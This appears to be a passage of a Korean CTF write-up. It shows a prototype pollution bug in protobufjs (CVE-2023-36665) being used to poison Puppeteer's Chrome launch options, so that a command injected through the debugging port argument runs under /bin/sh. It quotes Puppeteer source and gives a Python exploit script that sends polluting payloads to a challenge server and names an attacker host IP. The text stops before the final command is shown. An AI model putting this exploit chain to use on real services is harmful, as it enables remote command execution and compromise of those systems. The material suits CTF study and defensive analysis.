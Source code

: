이 때, `options` 값으로 `shell=/bin/sh`을 지정해주면, `args` 부분에 `;`를 넣어 다른 명령을 실행하도록 조작할 수 있다.               
       
```typescript
export class ChromeLauncher extends ProductLauncher {
  ...
  override async computeLaunchArguments(
    options: PuppeteerNodeLaunchOptions = {}
  ): Promise<ResolvedLaunchArgs> {
    if (
      !chromeArguments.some(argument => {
        return argument.startsWith('--remote-debugging-');
      })
    ) {
      if (pipe) {
        assert(
          !debuggingPort,
          'Browser should be launched with either pipe or debugging port - not both.'
        );
        chromeArguments.push('--remote-debugging-pipe');
      } else {
        // attack vector
        chromeArguments.push(`--remote-debugging-port=${debuggingPort || 0}`);
      }
    }
    ...
  }
}
```       
https://github.com/puppeteer/puppeteer/blob/main/packages/puppeteer-core/src/node/ChromeLauncher.ts#L102                 
     
명령을 실행할 조건이 맞춰졌다면, `debuggingPort` 값에 실행할 명령을 입력해주면 된다. 
      
`Prototype Pollution` 취약점을 통해 `shell=/bin/sh` 값을 설정하고, `userDataDir`과 `executablePath` 값은 아무 값으로 설정해준다. 이후, `--remote-debugging-port` 옵션 값에 값을 써주기 위해 `ignoreDefaultArgs=true`로 설정한다.     

최종 페이로드는 다음과 같다.    
             
### Exploit Code     
```python
import httpx

BASE_URL = "http://localhost:3000"
# BASE_URL = "https://ch47140142150.ch.eng.run"

ATTACKER_HOST = "43.201.148.255"

client = httpx.Client(base_url=BASE_URL)

def pp(key: str, value: str):
    # ref. https://www.code-intelligence.com/blog/cve-protobufjs-prototype-pollution-cve-2023-36665
    author = "option(a).constructor.prototype." + key + "=" + value + ""
    assert len(author) <= 86, [author, len(author)]
    res = client.post(
        "/customise",
        json={
            "data": [
                {},
                {
                    "author": author,
                },
            ]
        },
    )
    assert res.json()["Message"] == "Settings changed", res.text
    res = client.post("/create", json={})
```